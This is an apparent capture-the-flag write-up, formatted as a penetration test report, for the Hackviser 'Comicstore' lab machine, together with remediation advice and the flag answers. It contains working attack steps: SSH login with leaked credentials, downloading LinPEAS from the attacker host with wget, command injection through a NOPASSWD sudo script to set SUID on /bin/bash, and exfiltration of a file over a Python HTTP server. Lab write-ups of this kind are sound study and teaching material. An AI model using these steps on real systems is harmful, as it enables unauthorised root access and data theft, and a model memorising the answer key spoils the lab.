





# Comicstore Penetration Test Report

---

## Executive Summary

This report documents a comprehensive security assessment conducted on the target system hosted at `comicstore.hv` (172.20.14.166). The assessment identified critical security vulnerabilities that enabled complete system compromise, from initial reconnaissance to root-level access.

**Key Findings:**
- **High:** Information disclosure of sensitive notes and credentials in plaintext within web directory
- **Critical:** Command injection vulnerability in bash script
- **Critical:** Sudo misconfiguration (NOPASSWD) enabling privilege escalation
- **High:** Sensitive financial data storage in root-protected directory

The exploitation chain progressed from web-based information disclosure to SSH access, command injection privilege escalation, and ultimately root access. Critical data including user credentials, sensitive notes, and a fraud target list were successfully obtained.

---

## 1. Enumeration

### 1.1 Initial Setup

The target domain was mapped to the local network environment by editing the hosts file:

```bash
sudo nano /etc/hosts
```

The following entry was added:

```
172.20.14.166 comicstore.hv
```

### 1.2 Network Service Discovery

The initial reconnaissance phase commenced with comprehensive network service scanning using Nmap to identify exposed attack surfaces:

```bash
nmap -sVC -oX nmap.xml -T4 172.20.14.166 > nmap.txt
```

**Scan Results:**

```
Starting Nmap 7.98 ( https://nmap.org ) at 2026-01-23 15:24 +0300
Nmap scan report for comicstore.hv (172.20.14.166)
Host is up (0.073s latency).
Not shown: 997 closed tcp ports (reset)
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 9.2p1 Debian 2+deb12u2 (protocol 2.0)
| ssh-hostkey:
|   256 f1:d3:3d:0e:44:58:c2:6e:7c:32:e2:9f:aa:d4:32:40 (ECDSA)
|_  256 10:6f:37:a1:79:c5:15:08:9c:23:44:ea:24:10:84:27 (ED25519)
80/tcp   open  http    Apache httpd 2.4.57 ((Debian))
| http-robots.txt: 1 disallowed entry
|_/wp-admin/
|_http-generator: WordPress 6.5.2
|_http-server-header: Apache/2.4.57 (Debian)
|_http-title: Comic Store
3306/tcp open  mysql   MariaDB 10.3.23 or earlier (unauthorized)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 13.41 seconds
```

**Identified Services:**

1. **SSH (Port 22):** OpenSSH 9.2p1 Debian - Current version. Potential entry point contingent upon credential acquisition.

2. **HTTP (Port 80):** Apache httpd 2.4.57 - Hosting "Comic Store" website running WordPress 6.5.2. The robots.txt file exposes `/wp-admin/` directory.

3. **MySQL (Port 3306):** MariaDB 10.3.23 or earlier - Unauthorized access. Potential database target.

### 1.3 Web Application Discovery

Investigation of `http://comicstore.hv` revealed a comic store website. Examination of posts on the homepage led to an important username discovery:



**Finding #1:** Potential username identified: `johnny`

The user publishing blog posts on the homepage was identified as "johnny", constituting a potential username for SSH authentication.

### 1.4 Directory Discovery

Directory brute-force attack was performed using Gobuster to identify web application structure:

```bash
gobuster dir -u http://172.20.14.166 -w /usr/share/wordlists/dirb/common.txt -x php,html,txt
```

**Critical Discovery:**

```
===============================================================
Gobuster v3.8.2
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://172.20.14.166
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirb/common.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.8.2
[+] Extensions:              php,html,txt
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
_notes               (Status: 301) [Size: 315] [--> http://172.20.14.166/_notes/]
admin                (Status: 302) [Size: 0] [--> http://comicstore.hv/wp-admin/]
dashboard            (Status: 302) [Size: 0] [--> http://comicstore.hv/wp-admin/]
favicon.ico          (Status: 302) [Size: 0] [--> http://comicstore.hv/wp-includes/images/w-logo-blue-white-bg.png]
feed                 (Status: 200) [Size: 21857]
index.php            (Status: 200) [Size: 28761]
javascript           (Status: 301) [Size: 319] [--> http://172.20.14.166/javascript/]
license.txt          (Status: 200) [Size: 19915]
```

**Finding #2:** Hidden `_notes` directory discovered

---

## 2. Information Disclosure: Sensitive Notes

### 2.1 _notes Directory Investigation

Upon accessing the `/_notes/` directory, directory listing was found to be enabled:



A suspicious file named `_securepassword.txt` was identified within the directory. Investigation of this file revealed critical credentials:



**File Contents:**

```
bl4z3
```

**Finding #3:** SSH password identified: `bl4z3`

**Vulnerability Analysis:**

This information disclosure encompasses the following security flaws:
1. **Directory Listing Enabled:** Directory listing not disabled on web server
2. **Cleartext Credentials:** Password stored without encryption
3. **Sensitive Files in Web Root:** Credentials accessible via web interface
4. **Weak File Naming:** `_securepassword.txt` file easily guessable

This vulnerability constitutes a **high severity information disclosure** flaw (CVSS Base Score: 7.5 - High).

---

## 3. Initial Access: SSH Authentication

### 3.1 Credential Verification

Authentication was attempted against the SSH service using credentials obtained through web discovery:

```bash
ssh johnny@172.20.14.166
```

**Credentials Used:**
- **Username:** johnny
- **Password:** bl4z3

**Successful Authentication:**

```
┌──(macallan㉿kali)-[~/Downloads/Hackviser/writeup/comicstore]
└─$ ssh johnny@172.20.14.166
johnny@172.20.14.166's password: bl4z3
Linux comicstore 6.1.0-18-amd64 #1 SMP PREEMPT_DYNAMIC Debian 6.1.76-1 (2024-02-01) x86_64

The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
Last login: Fri Jan 23 09:46:41 2026 from 10.8.73.133
johnny@comicstore:~$ whoami
johnny
johnny@comicstore:~$ id
uid=1000(johnny) gid=1000(johnny) groups=1000(johnny)
```

**Result:** Shell access obtained as the `johnny` user, establishing a foothold on the target system.

**Security Detection Notes:**
1. **Credential Reuse:** Password obtained from web was valid for SSH
2. **No Multi-Factor Authentication:** SSH access lacked secondary authentication mechanisms
3. **Weak Password Policy:** Simple passwords like `bl4z3` permitted

### 3.2 Post-Exploitation Reconnaissance

Initial reconnaissance conducted within the compromised user context revealed the home directory structure:

```bash
johnny@comicstore:~$ ls -la
total 36
drwx------ 7 johnny johnny 4096 May  6  2024 .
drwxr-xr-x 3 root   root   4096 Jan 16  2024 ..
lrwxrwxrwx 1 johnny johnny    9 Mar  3  2024 .bash_history -> /dev/null
-rw-r--r-- 1 johnny johnny  220 Jan 16  2024 .bash_logout
-rw-r--r-- 1 johnny johnny 3526 Jan 16  2024 .bashrc
drwxr-xr-x 2 johnny johnny 4096 Feb 18  2024 Desktop
drwxr-xr-x 3 johnny johnny 4096 Feb 18  2024 Documents
drwxr-xr-x 2 johnny johnny 4096 Feb 18  2024 Music
drwxr-xr-x 2 johnny johnny 4096 Feb 18  2024 Public
drwxr-xr-x 2 johnny johnny 4096 Feb 18  2024 Videos
```

**Notable Details:**
- `.bash_history` file symlinked to `/dev/null` - Command history concealment attempted
- Standard user directory structure (Desktop, Documents, Music, etc.)

### 3.3 Documents Directory Discovery

Further exploration revealed an interesting subdirectory within the `Documents` folder:

```bash
johnny@comicstore:~$ cd Documents/
johnny@comicstore:~/Documents$ ls -la
total 12
drwxr-xr-x 3 johnny johnny 4096 Feb 18  2024 .
drwx------ 7 johnny johnny 4096 May  6  2024 ..
drwxr-xr-x 2 root   root   4096 May  2  2024 myc0ll3ct1on
```

**Finding #4:** Comic collection directory identified: `myc0ll3ct1on`

Initial observation shows the `myc0ll3ct1on` directory is owned by `root`, indicating potential sensitive files within.

---

## 4. Privilege Escalation

### 4.1 Automated Enumeration with LinPEAS

LinPEAS (Linux Privilege Escalation Awesome Script) automated enumeration tool was deployed to identify privilege escalation vectors. LinPEAS performs comprehensive security checks including:

- SUID/SGID binary identification
- Sudo misconfiguration analysis
- Cron job enumeration
- Writable file detection
- Credential searching

The tool was transferred from the attacker machine:

```bash
# Attacker machine
python3 -m http.server 8080
```

```bash
# Target machine
cd /tmp
wget http://10.8.73.133:8080/linpeas.sh
chmod +x linpeas.sh
./linpeas.sh
```



### 4.2 Critical Finding: Sudo Misconfiguration

LinPEAS output revealed a critical privilege escalation vector:

```
╔══════════╣ Checking 'sudo -l', /etc/sudoers, and /etc/sudoers.d
╚ https://book.hacktricks.wiki/en/linux-hardening/privilege-escalation/index.html#sudo-and-suid
Matching Defaults entries for johnny on comicstore:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin, use_pty

User johnny may run the following commands on comicstore:
    (root) NOPASSWD: /opt/.securebak/backup_mp3.sh
```

**Finding #5:** Sudo-executable script identified: `backup_mp3.sh`

**Technical Analysis:**

The `johnny` user possessed unrestricted sudo access to `/opt/.securebak/backup_mp3.sh` without password authentication. This script, designed for backup operations, contains security vulnerabilities.

### 4.3 Script Analysis: Command Injection

Detailed analysis of the `backup_mp3.sh` script was performed:

```bash
johnny@comicstore:/tmp$ cat /opt/.securebak/backup_mp3.sh
```

**Script Contents:**

```bash
#!/bin/bash

sudo find / -name "*.mp3" | sudo tee -a /run/media/johnny/BACKUP/backedup.txt

# archive file to keep track of files
input="/run/media/johnny/BACKUP/backedup.txt"

while getopts c: flag; do
  case "${flag}" in
    c) command=${OPTARG};;
  esac
done

backup_files="/home/johnny/Music/song*.mp3"

# backup location
dest="/run/media/johnny/BACKUP"

# archive filename.
hostname=$(hostname -s)
archive_file="$hostname-bak.tar.gz"

# print starting message
echo "Backing up $backup_files to $dest/$archive_file" && echo

# backing up the files
tar czf $dest/$archive_file $backup_files

# print ending message
echo && echo "Backup finished"

cmd=$($command) && echo $cmd
```

**Vulnerability Identification:**

The critical weakness of the script is located in the final lines:

```bash
while getopts c: flag; do
  case "${flag}" in
    c) command=${OPTARG};;  # 1. Accepts command from user via -c parameter
  esac
done

# ... (intermediate code) ...

cmd=$($command) && echo $cmd  # 2. Executes the command directly!
```

**Exploitation Mechanism:**

1. **Insecure Input Processing:** Script assigns user-provided input via `-c` parameter directly to `$command` variable
2. **Command Injection:** `$($command)` structure executes variable contents as shell command
3. **Root Privileges:** Script runs with `sudo`, causing injected commands to execute with root privileges
4. **No Input Sanitization:** No input validation or filtering mechanism present

This vulnerability constitutes a **critical command injection flaw** (CVSS Base Score: 9.8 - Critical).

### 4.4 Exploitation: Privilege Escalation to Root

#### Method A: Adding SUID Bit to /bin/bash (Recommended)

The most reliable privilege escalation method is adding the SUID bit to the `/bin/bash` binary. This ensures bash executes with the file owner's (root) privileges regardless of who runs it:

```bash
sudo /opt/.securebak/backup_mp3.sh -c "chmod +s /bin/bash"
```

After adding the SUID bit, a privileged shell is spawned:

```bash
/bin/bash -p
```

**Execution Results:**

```
johnny@comicstore:/tmp$ sudo /opt/.securebak/backup_mp3.sh -c "chmod +s /bin/bash"
tee: /run/media/johnny/BACKUP/backedup.txt: No such file or directory
Backing up /home/johnny/Music/song*.mp3 to /run/media/johnny/BACKUP/comicstore-bak.tar.gz

tar: Removing leading `/' from member names
tar: /home/johnny/Music/song*.mp3: Cannot stat: No such file or directory
tar (child): /run/media/johnny/BACKUP/comicstore-bak.tar.gz: Cannot open: No such file or directory
tar (child): Error is not recoverable: exiting now
tar: Child returned status 2
tar: Error is not recoverable: exiting now

Backup finished

johnny@comicstore:/tmp$ /bin/bash -p
bash-5.2# whoami
root
bash-5.2# id
uid=1000(johnny) gid=1000(johnny) euid=0(root) egid=0(root) groups=0(root),1000(johnny)
```

**Result:** Root access successfully obtained.

**Technical Details:**
- `-p` parameter prevents bash from dropping elevated privileges when invoked with SUID
- `euid=0(root)` indicates the effective user ID is root
- Script errors (backup directory not found) do not prevent exploitation

#### Method B: Direct Shell Invocation (Alternative)

Alternatively, bash can be invoked directly:

```bash
sudo /opt/.securebak/backup_mp3.sh -c "/bin/bash"
```

However, this method may be unstable or freeze due to the script's command substitution mechanism.

---

## 5. Post-Exploitation and Data Collection

### 5.1 Root Directory Discovery

Upon establishing root access, previously inaccessible directories could be examined. The `Documents/myc0ll3ct1on` directory was now fully accessible:

```bash
bash-5.2# cd /home/johnny/Documents/myc0ll3ct1on
bash-5.2# ls -la
total 49168
drwxr-xr-x 2 root   root       4096 May  2  2024 .
drwxr-xr-x 3 johnny johnny     4096 Feb 18  2024 ..
-rw-r--r-- 1 johnny johnny      226 Mar  3  2024 notetomyself.txt
-rw-r--r-- 1 johnny johnny 10485760 Feb 18  2024 NotSoRare.cba
-rw-r--r-- 1 johnny johnny 12582912 Feb 18  2024 Rare.cba
-rw------- 1 root   root        274 May  2  2024 scamlist.csv
-rw-r--r-- 1 johnny johnny 13631488 Feb 18  2024 SuperRare.cba
-rw-r--r-- 1 johnny johnny 13631488 Feb 18  2024 VeryRare.cba
```

**Discovered Files:**
- **notetomyself.txt** - Personal note file
- **NotSoRare.cba, Rare.cba, SuperRare.cba, VeryRare.cba** - Comic archive files
- **scamlist.csv** - Sensitive file protected with root privileges

### 5.2 Sensitive Data Analysis: Fraud Target List

The `scamlist.csv` file, protected with root privileges, was only readable with root access. Transfer to the attacker machine was required for analysis.

**File Transfer:**

HTTP server initiated on target system:

```bash
bash-5.2# python3 -m http.server 8080
Serving HTTP on 0.0.0.0 port 8080 (http://0.0.0.0:8080/) ...
```

File downloaded on attacker machine:

```bash
┌──(macallan㉿kali)-[~/Downloads/Hackviser/writeup/comicstore]
└─$ wget http://172.20.14.166:8080/scamlist.csv
--2026-01-23 18:04:19--  http://172.20.14.166:8080/scamlist.csv
Connecting to 172.20.14.166:8080... connected.
HTTP request sent, awaiting response... 200 OK
Length: 274 [text/csv]
Saving to: 'scamlist.csv'

scamlist.csv            100%[============================>]     274  --.-KB/s    in 0s

2026-01-23 18:04:19 (44.2 MB/s) - 'scamlist.csv' saved [274/274]
```

**File Contents:**



```csv
Name,Age,Email,Phone,Note
John Smith,45,jsmith@email.hv,555-0101,Easy target
Sarah Johnson,52,sjohnson@email.hv,555-0102,Wealthy widow
Michael Brown,38,mbrown@email.hv,555-0103,Tech illiterate
Emily Randolf,67,erandolf@email.hv,555-0104,This woman is rolling in money
```

**Finding #6:** Fraud target list: 4 individuals identified

**Critical Detection:**

**Emily Randolf** (67 years old) marked as highest priority target with the note "This woman is rolling in money".

**Technical Analysis:**

This file constitutes evidence of the following malicious activities:
1. **Fraud Planning:** Systematic list of potential victims
2. **Personal Data Collection:** Personal information including name, age, email, phone number
3. **Target Profiling:** Notes such as "Easy target", "Tech illiterate", "Rolling in money" indicate target selection criteria
4. **Elderly Targeting:** Majority of targets in 45+ age group

This file represents direct evidence of an **organized fraud operation** and must be reported to law enforcement.

---

## 6. Conclusion and Remediation

### 6.1 Summary of Findings

This assessment successfully compromised the Comicstore infrastructure through a multi-stage attack chain:

1. **Web Information Disclosure:** Cleartext credentials exposed in `_notes` directory
2. **SSH Access:** System access obtained using exposed credentials
3. **Sudo Misconfiguration:** Sudo access to backup_mp3.sh script with NOPASSWD
4. **Command Injection:** Insecure input processing in backup script
5. **Privilege Escalation:** Root access via SUID bash manipulation
6. **Sensitive Data Discovery:** Fraud target list and financial intelligence

**Information Obtained:**
- Username: `johnny`
- SSH password: `bl4z3`
- Comic collection directory: `myc0ll3ct1on`
- Privilege escalation script: `backup_mp3.sh`
- Wealthiest target: `Emily Randolf`

### 6.2 Remediation Recommendations

**Critical Priority:**

1. **Remove Sensitive Files from Web Access**
   - Remove `_notes` directory and all sensitive files from web root:
     ```bash
     rm -rf /var/www/html/_notes
     ```
   - Never store credentials in web-accessible directories
   - If necessary, store sensitive files in `/root` or encrypted directories

2. **Disable Apache Directory Listing**
   - Disable directory listing in Apache configuration:
     ```apache
     <Directory /var/www/html>
         Options -Indexes
     </Directory>
     ```
   - Block directory listing by default for all directories

3. **Sudo Privilege Separation**
   - Remove NOPASSWD sudo access for backup_mp3.sh:
     ```bash
     # Remove from /etc/sudoers:
     johnny ALL=(ALL) NOPASSWD: /opt/.securebak/backup_mp3.sh
     ```
   - Implement unprivileged alternative mechanisms for backup operations:
     - Scheduled backups via systemd timer
     - Automated backups via cron job (with root privileges)
     - Secure API for user-triggered backups

4. **Script Security Hardening**
   - Fix command injection vulnerability in `backup_mp3.sh` script
   - Never pass user input directly to shell commands
   - Implement input sanitization and validation:
     ```bash
     # WRONG (current code):
     cmd=$($command) && echo $cmd

     # CORRECT (secure alternative):
     # Don't execute commands with user input at all
     # Or restrict allowed commands via whitelist
     case "$command" in
       "status") echo "Backup status: OK" ;;
       "list") ls -lh "$dest" ;;
       *) echo "Invalid command" ;;
     esac
     ```

**High Priority:**

5. **Strong Authentication Policy**
   - Implement password policy blocking weak passwords:
     ```bash
     # /etc/security/pwquality.conf
     minlen = 14
     dcredit = -1
     ucredit = -1
     ocredit = -1
     lcredit = -1
     ```
   - Enforce SSH key authentication:
     ```
     # /etc/ssh/sshd_config
     PasswordAuthentication no
     PubkeyAuthentication yes
     ```
   - Add multi-factor authentication with Google Authenticator

6. **Sensitive Data Protection**
   - Immediately secure `scamlist.csv` file for law enforcement investigation
   - Warn potential victims listed in the file
   - Report fraud operation to relevant authorities
   - Deploy full disk encryption (LUKS) for sensitive files
   - Implement mandatory access controls for file access (SELinux/AppArmor)

7. **Command History Monitoring**
   - Prevent `.bash_history` redirection to `/dev/null`:
     ```bash
     chattr +a /home/johnny/.bash_history
     ```
   - Send all user commands to central log server (`auditd`)

**Medium Priority:**

8. **Web Application Firewall (WAF)**
   - Deploy ModSecurity or similar WAF solution
   - Add rules blocking directory traversal and information disclosure attacks
   - Don't hide admin directories in robots.txt (serves as map for attackers)

9. **Security Monitoring**
   - Deploy intrusion detection system (IDS) - e.g., Fail2ban, OSSEC
   - Implement file integrity monitoring (FIM) on critical files
   - Monitor and alert on sudo command executions:
     ```
     Defaults logfile="/var/log/sudo.log"
     Defaults log_input, log_output
     ```

10. **Regular Security Audits**
    - Perform penetration testing quarterly
    - Weekly vulnerability scanning (Nessus, OpenVAS)
    - Code review and script security auditing

### 6.3 Security Implications

The identified vulnerabilities represent a complete security failure allowing unauthorized actors to:
- Extract sensitive system credentials
- Obtain system control via SSH access
- Achieve root-level system compromise
- Access fraud operation evidence
- Obtain personal information of potential victims

Immediate remediation and incident response actions are required to prevent exploitation by malicious actors and harm to target individuals.

### 6.4 Compliance Violations

The identified vulnerabilities and malicious activities constitute violations of:
- **Computer Fraud and Abuse Act (CFAA):** Unauthorized access and fraud planning
- **GDPR Article 32:** Failure to ensure appropriate security level
- **PCI DSS Requirement 8.2:** Weak password policies
- **SOC 2 CC6.1:** Inadequate logical access controls

### 6.5 Incident Response Actions

**Immediate Steps:**

1. **Law Enforcement Notification**
   - Submit `scamlist.csv` file and all related evidence to legal authorities
   - Coordinate with Cybercrime Investigation Department
   - Cooperate with digital forensics experts

2. **Victim Notification**
   - Immediately warn John Smith, Sarah Johnson, Michael Brown, and Emily Randolf
   - Inform about potential fraud attempts
   - Coordinate with local police departments

3. **System Security Hardening**
   - Immediately change all user passwords
   - Suspend `johnny` account and conduct detailed investigation
   - Audit all script files for vulnerabilities
   - Analyze SSH access logs (for past unauthorized access detection)

4. **Forensic Investigation**
   - Capture full disk image (evidence preservation)
   - Backup all log files
   - Determine scope of fraud operation
   - Search for other malicious activity evidence on system

---

## 7. Command Reference

### Reconnaissance Commands
```bash
# Host configuration
echo 172.20.14.166 comicstore.hv >> /etc/hosts

# Initial network scan
nmap -sVC -oX nmap.xml -T4 172.20.14.166 > nmap.txt

# Directory brute-force
gobuster dir -u http://172.20.14.166 -w /usr/share/wordlists/dirb/common.txt -x php,html,txt
```

### Exploitation Commands
```bash
# SSH authentication
ssh johnny@172.20.14.166
# Password: bl4z3

# LinPEAS transfer
python3 -m http.server 8080
wget http://10.8.73.133:8080/linpeas.sh
chmod +x linpeas.sh
./linpeas.sh
```

### Privilege Escalation Commands
```bash
# Sudo check
sudo -l

# Backup script analysis
cat /opt/.securebak/backup_mp3.sh

# SUID privilege escalation
sudo /opt/.securebak/backup_mp3.sh -c "chmod +s /bin/bash"
/bin/bash -p
```

### Post-Exploitation Commands
```bash
# Root directory discovery
cd /home/johnny/Documents/myc0ll3ct1on
ls -la

# File transfer
python3 -m http.server 8080
wget http://172.20.14.166:8080/scamlist.csv
```

---

## 8. Indicators and Flags

**Question 1:** What could be the potential username?
**Answer:** `johnny`
**Location:** Website homepage - blog author

**Question 2:** Apparently the admin left a note for himself. What is the password?
**Answer:** `bl4z3`
**Location:** `http://comicstore.hv/_notes/_securepassword.txt`

**Question 3:** What is the name of the directory where comics are kept?
**Answer:** `myc0ll3ct1on`
**Location:** `/home/johnny/Documents/myc0ll3ct1on`

**Question 4:** What is the name of the script used to backup mp3 files?
**Answer:** `backup_mp3.sh`
**Location:** `/opt/.securebak/backup_mp3.sh`

**Question 5:** What is the name of the richest person in the scamlist.csv file?
**Answer:** `Emily Randolf`
**Location:** `/home/johnny/Documents/myc0ll3ct1on/scamlist.csv`

---

**Report Creation Date:** 2026-01-23

**Assessment Type:** Capture The Flag (CTF) Security Exercise

**Target System:** Comicstore (comicstore.hv)

**Machine:** https://app.hackviser.com/scenarios/comicstore

**MacallanTheRoot**: https://github.com/MacallanTheRoot
